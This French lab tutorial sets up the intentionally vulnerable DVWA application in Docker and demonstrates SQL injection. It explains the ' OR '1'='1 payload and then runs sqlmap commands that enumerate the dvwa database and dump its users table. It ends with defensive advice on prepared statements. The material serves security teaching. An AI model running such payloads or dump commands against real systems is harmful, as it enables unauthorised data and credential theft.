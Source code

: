 # TP d'injection SQL avec DVWA sur Docker, Kali Linux et sqlmap

## Introduction à l'Injection SQL

L'injection SQL est une vulnérabilité de sécurité web qui permet à un attaquant d'interférer avec les requêtes SQL qu'une application exécute sur sa base de données. En injectant du code SQL malveillant dans les entrées utilisateur, un attaquant peut contourner les mesures de sécurité, accéder à des données sensibles, modifier ou supprimer des données, voire même exécuter des commandes sur le serveur de base de données.

### Exemple d'Injection SQL

Prenons un exemple simple. Un site web a une page de connexion avec un champ "Nom d'utilisateur". Le code SQL pour vérifier les identifiants pourrait être :

```sql
SELECT * FROM utilisateurs WHERE nom_utilisateur = '$nom_utilisateur';
```

Si un utilisateur entre `' OR '1'='1`, la requête devient :

```sql
SELECT * FROM utilisateurs WHERE nom_utilisateur = '' OR '1'='1';
```

Comme `1=1` est toujours vrai, la requête renvoie toutes les lignes de la table utilisateurs, permettant potentiellement à l'attaquant de se connecter sans connaître le mot de passe.

## Mise en place de l'environnement sur Docker

### 1. Créer un réseau Docker

```bash
docker network create dvwa-network
```
![dvwa-network](<Screenshot 2024-12-19 210102.png>)

### 2. Lancer DVWA avec MySQL

Créez un fichier `docker-compose.yml` avec le contenu suivant :

```yaml
version: '3.8'
services:
  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "80:80"
    networks:
      - dvwa-network
    depends_on:
      - mysql
  mysql:
    image: mysql:5.7
    environment:
      MYSQL_ROOT_PASSWORD: "kali"
      MYSQL_DATABASE: dvwa
      MYSQL_USER: dvwa
      MYSQL_PASSWORD: "kali"
    volumes:
      - db_data:/var/lib/mysql
    networks:
      - dvwa-network

volumes:
  db_data:

networks:
  dvwa-network:
    driver: bridge
```

Exécutez :

```bash
docker-compose up -d
```
![Lancer les conteneurs docker](<Screenshot 2024-12-19 210732.png>)

### 3. Lancer Kali Linux (facultatif)

Si vous utilisez une instance Kali Linux existante, assurez-vous que `sqlmap` est installé :

```bash
sudo apt update && sudo apt install sqlmap
```

## TP avec sqlmap

### 1. Accéder à DVWA

Ouvrez votre navigateur et accédez à `http://localhost`. Configurez DVWA (database setup). Assurez-vous de choisir le niveau de sécurité "Low" pour cet exercice.
![Accès à DVWA](<Screenshot 2024-12-19 211119.png>)

![Alt text](<Screenshot 2024-12-19 211137.png>)

![Alt text](<Screenshot 2024-12-19 211300.png>)

![Alt text](<Screenshot 2024-12-19 211733.png>)

### 2. Identifier la vulnérabilité

Dans DVWA, allez dans "SQL Injection". Entrez un ID (par exemple, 1). Observez l'URL. Elle devrait ressembler à ceci : `http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#`.

![Alt text](<Screenshot 2024-12-19 211821.png>)

![Alt text](<Screenshot 2024-12-19 211836.png>)

### 3. Utilisation de sqlmap

#### Tester la vulnérabilité

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 --dbs --batch --level 1
```
![sqlmap Test Vulnerability](<Screenshot 2024-12-19 212018.png>)

#### Lister les tables d'une base de données

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 -D dvwa --tables --batch --level 1
```
![sqlmap List Tables](<Screenshot 2024-12-19 212121.png>)

#### Lister les colonnes d'une table

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 -D dvwa -T users --columns --batch --level 1
```
![sqlmap List Columns](<Screenshot 2024-12-19 214207.png>)
#### Récupérer les données d'une table

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 -D dvwa -T users --dump --batch --level 1
```
![sqlmap Dump Data](<Screenshot 2024-12-19 214232.png>)
## Résumé

Ce TP a permis de comprendre les bases de l'injection SQL, de mettre en place un environnement de test avec Docker, DVWA et Kali Linux, et d'utiliser `sqlmap` pour exploiter une vulnérabilité d'injection SQL.

## Conclusion

L'injection SQL est une menace sérieuse pour les applications web. Il est crucial de mettre en œuvre des mesures de sécurité robustes, telles que la validation et l'échappement des entrées utilisateur, l'utilisation de requêtes préparées ou d'ORM, pour prévenir ces attaques. Ce TP offre une expérience pratique pour comprendre et contrer cette vulnérabilité.
